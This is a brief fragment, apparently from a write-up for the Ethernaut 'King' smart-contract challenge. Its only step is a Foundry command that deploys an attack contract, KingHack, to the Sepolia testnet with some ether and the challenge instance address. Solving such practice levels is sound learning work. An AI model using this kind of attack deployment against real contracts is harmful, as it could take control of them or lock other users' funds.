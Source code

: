 # King Solution

1) Deploy `KingHack`:

```
forge create KingHack --value 1000000000000000wei --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey --gas-limit 1000000 --constructor-args `ìnstanceAddress`
```
